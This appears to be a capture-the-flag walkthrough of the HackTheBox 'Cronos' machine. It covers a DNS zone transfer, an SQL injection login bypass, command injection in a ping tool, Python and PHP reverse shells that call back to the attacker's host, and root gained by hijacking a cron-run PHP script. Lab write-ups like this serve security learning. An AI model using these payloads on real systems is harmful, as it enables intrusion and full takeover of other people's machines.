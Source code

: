 # Cronos

## Service Enumeration

`nmapAutomator.sh -H 10.10.10.13 -t all`

![](../../.gitbook/assets/bfd67177bbef47d58d0d56b1810125fc.png)

We can perform a DNS zone transfer, guessing that the domain is `cronos.htb`:

`dig axfr @10.10.10.13 cronos.htb`

![](../../.gitbook/assets/4f28cc7fc450492f9d42f3e50ac905ef.png)

Here, we uncover some subdomains for `10.10.10.13`. Let's add them to our `/etc/hosts` file.

![](../../.gitbook/assets/abd9d59184994eb083bc0f017f32f560.png)

Now, going to www.cronos.htb and admin.cronos.htb yields a valid webpage.

## Exploitation

The `admin.cronos.htb` login page is vulnerable to SQL injection. Using the payload:

`username=' or 1=1;#&password=`

We can bypass the authentication. Note that this does not work on the password field.

![](../../.gitbook/assets/9d4ca552b4754f4ba1a2677b1c3ba530.png)

We get access to the following tool:

![](../../.gitbook/assets/4c1e3c17fe0441af998525d1661b13b2.png)

If we examine the POST request, we see that `ping -c 1` is sent as the `command parameter`. It is possible that the server is not sanitizing the input and reflecting the `command` parameter into the OS command.

![](../../.gitbook/assets/d3efa548625345de8f12e504a2f92715.png)

Indeed, changing to `-c 2` changes the command executed!

![](../../.gitbook/assets/f82678092ad247c6ae309a4f330bd0d1.png)

We now have an RCE vulnerability. Executing the `which python` command shows that Python is installed on the server.

![](../../.gitbook/assets/a27d49e90e9c4286ab0140b4b3382a02.png)

We can use a Python reverse shell payload:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

After URL encoding, we can edit the `command` parameter:

`command=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.23%22%2C4242%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27&host=`

On our Netcat listener, we receive the reverse shell

![](../../.gitbook/assets/412419bea8c4472596d5cf386a3d56dc.png)

![](../../.gitbook/assets/d794b07b25d5412aa92a784cded5ad6c.png)

## Privilege Escalation

We can use LinPEAS to enumerate.

We find the following cron job that runs every minute:

![](../../.gitbook/assets/15a19355e54a4454b2fb4ea71fe446af.png)

The script run is a PHP script:

![](../../.gitbook/assets/36d69c5193c44becb61ab404f915e938.png)

We can change this to our custom PHP payload:

```php
<?php $sock=fsockopen("10.10.14.23",4242); $proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```

![](../../.gitbook/assets/1e31a44b87f947ecbdbd1c27a405d7ef.png)

The next time the cron job is run, we obtain a root shell on our listener.

![](../../.gitbook/assets/3a201222a9e049bca51b5893c954cd87.png)

![](../../.gitbook/assets/bebb311a957347fbaaec82de62905a87.png)

